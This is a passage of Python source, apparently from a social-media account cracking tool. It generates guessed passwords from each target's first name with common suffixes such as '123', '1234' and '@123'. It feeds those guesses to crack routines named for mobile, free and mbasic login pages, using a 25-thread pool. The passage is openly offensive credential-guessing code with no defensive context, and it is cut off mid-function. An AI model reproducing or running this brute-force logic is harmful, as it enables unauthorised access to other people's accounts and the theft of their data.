 					pwv.append('1234'+frs)
					pwv.append('12345'+frs)
					


			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
def passwrd1():
	os.system('clear')
	banner()
	print("")
	with tred(max_workers=25) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(frs) == 3 or len(frs) == 4 or len(frs) == 5 or len(frs) == 6 or len(frs) == 7 or len(frs) == 8 or len(frs) == 9 or len(frs) == 10 or len(frs) == 11 or len(frs) == 12:
					pwv.append(nmf)
					pwv.append(frs+frs)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append(frs+frs)
					
			else:
					pwv.append(nmf)
					pwv.append(frs+frs)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')